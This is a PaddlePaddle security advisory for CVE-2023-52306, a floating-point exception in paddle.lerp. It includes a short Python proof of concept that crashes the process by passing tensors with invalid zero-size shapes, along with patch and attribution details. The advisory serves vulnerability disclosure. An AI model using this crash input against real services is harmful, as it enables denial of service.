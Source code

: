 ## PDSA-2023-015: FPE in paddle.lerp

### CVE Number

CVE-2023-52306

### Impact

FPE in `paddle.lerp` when tensor shape is invalid. The PoC is as follows:

```python
import paddle
import numpy as np

x = paddle.to_tensor(np.random.uniform(-6666666, 100000000, []).astype(np.float64))
y = paddle.to_tensor(np.random.uniform(-6666666, 100000000, [4, 0, 0, 2, 6]).astype(np.float64))
weight = paddle.to_tensor(np.random.uniform(-6666666, 100000000, []).astype(np.float64))

paddle.lerp(x, y, weight)
```

### Patches

We have patched the issue in commit [19da5c0c4d8c5e4dfef2a92e24141c3f51884dcc](https://github.com/PaddlePaddle/Paddle/commit/19da5c0c4d8c5e4dfef2a92e24141c3f51884dcc).
The fix will be included in PaddlePaddle 2.6.0.

### For more information

Please consult [our security guide](../../SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution

This vulnerability has been reported by Tong Liu of CAS-IIE.
